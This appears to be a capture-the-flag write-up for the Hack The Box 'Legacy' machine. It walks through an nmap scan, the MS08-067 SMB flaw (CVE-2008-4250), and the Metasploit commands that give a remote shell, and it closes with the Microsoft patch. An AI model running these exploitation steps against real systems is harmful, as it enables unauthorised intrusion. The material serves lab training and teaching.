 ![logo](/logo.png)

# [LEGACY- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was reeleased on 15 Mar 2017 as the second machine on HTB,Legacy created by ch4p.So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *msrpc
  *netbios-ssn
  *Windows-XP
  
###### code-nmap

```sh
nmap -sV -sC -oA nmap/legacy 10.10.10.4
```

###### output

![nmaplegacy](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Legacy/Screenshots/nmaplegacy.png)

```code
❯ nmap -sV -sC -oA nmap/legacy 10.10.10.4                                                                                           ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-04 09:17 EAT
Nmap scan report for 10.10.10.4
Host is up (0.33s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b0:da:f6 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2024-08-09T11:15:50+03:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 5d00h27m41s, deviation: 2h07m15s, median: 4d22h57m42s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.78 seconds

```

looking at the results we find that they are 3 ports open which is an SMB port its a `windows XP` machine.

port[135]-msrpc
port[139]-netbios-ssn
port[445]-microsoft-ds 


# Exploitation

Some [searching](https://support.microsoft.com/en-us/topic/ms08-067-vulnerability-in-server-service-could-allow-remote-code-execution-ac7878fc-be69-7143-472d-2507a179cd15) turns up with [CVE-2008-4250](https://nvd.nist.gov/vuln/detail/cve-2008-4250). Before diving into the details of my exploit, let’s unpack his vulnerability is a significant security flaw in Microsoft Windows operating systems, particularly affecting the Server service that manages file and printer sharing. The core issue lies in how Windows handles network services, allowing an attacker to send specially crafted network packets to execute arbitrary code remotely. In simpler terms, this vulnerability could enable an attacker to take control of a system without the user’s knowledge, which also has a `Metasploit` module available for it. 

We the launch metasploit console 

###### code 

```sh
msfconsole
```

Then we select the `exploit/windows/smb/ms08_067_netapi` and select relevant parameters;

###### code

 ```sh
search ms08_067_netapi
```

If so, Windows XP SP3 English is the correct target.

###### output

![metasploitlegacy](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Legacy/Screenshots/metasploitlegacy.png)

###### code

```sh
use 8
options
set RHOSTS 10.10.10.4
set LHOST 10.10.14.4
run
```

###### output

![metasploitoption](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Legacy/Screenshots/metasploitoption.png)

Running the module immediately grants a root shell. 

![metasploitoption](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Legacy/Screenshots/meterpreterlegacy.png)

###### code

```sh
shell
```

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Legacy/Screenshots/shelllegacy.png)

The user flag can be obtained from `C:\Documents and Settings\john\Desktop\user.txt` and the
root flag from `C:\Documents and Settings\Administrator\Desktop\root.txt`
###### output

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Legacy/Screenshots/legacyrootuserflag.png)


# The Mitigation: MS08–067

The adventure wouldn’t be complete without discussing the mitigation of this vulnerability. Microsoft released a security update, MS08–067, to patch this critical flaw. This update was crucial for Windows 2000, XP, Vista, and Windows Server 2003 and 2008 users, addressing the vulnerable component in the Server service to prevent such remote exploits. [Bulletin](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067)

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Legacy/Screenshots/learnlegacy.png)

	-------------------------END successful attack @lesley----------------------


